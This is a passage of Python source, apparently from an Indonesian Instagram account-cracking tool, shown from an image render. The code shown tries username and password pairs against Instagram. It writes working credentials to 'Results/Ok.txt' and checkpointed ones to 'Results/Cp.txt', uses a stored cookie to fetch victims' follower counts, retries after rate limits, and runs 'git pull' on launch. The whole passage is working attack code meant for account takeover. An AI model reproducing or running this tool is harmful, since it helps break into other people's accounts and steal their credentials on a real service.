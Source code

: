                         open('Results/Ok.txt','a').write(f"{uid}|{pw}\n")
                        break
                    elif 'checkpoint_required' in str(response):
                        try:
                            ___roz = requests.get(f'https://www.instagram.com/{uid}/?__a=1', headers = {'user-agent': 'Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)', 'cookie': open('Data/coki.txt','r').read()}).json()['graphql']['user']
                            follower = ___roz['edge_followed_by']['count']
                            following = ___roz['edge_follow']['count']
                        except (KeyError, IOError):
                            follower = ('-')
                            following = ('-')
                        except:pass
                        print(f"\r{B}[{P}✘{B}]{P} Status :{K} Tonye Checkpoint    ")
                        print(f"{B}[{P}>{B}]{P} Username :{K} {uid}")
                        print(f"{B}[{P}>{B}]{P} Password :{K} {pw}")
                        print(f"{B}[{P}>{B}]{P} Follower :{K} {follower}")
                        print(f"{B}[{P}>{B}]{P} Following :{K} {following}\n")
                        self.cp.append(f"{uid}|{pw}")
                        open('Results/Cp.txt','a').write(f"{uid}|{pw}\n")
                        break
                    elif 'Please wait' in str(response):
                        print(f"{P}[{M}!{P}]{M} Gunakan Mode Pesawat 5 Detik !", end='\r');sleep(7);__main__(self, user, uid, pwx)
                    else:
                        continue
            self.kill +=1
            print(f"{P}[{P}Crack{P}]{P} {self.kill}/{str(len(user))} Cp:-{len(self.cp)} Ok:-{len(self.ok)}          ", end='\r')
        except (ConnectionError):
            print(f"{P}[{K}!{P}]{K} connection Error               ", end='\r');sleep(7);__main__(self, user, uid, pwx)
        except:__main__(self, user, uid, pwx)

if __name__=='__main__':
    os.system('git pull')
    ___menu___()

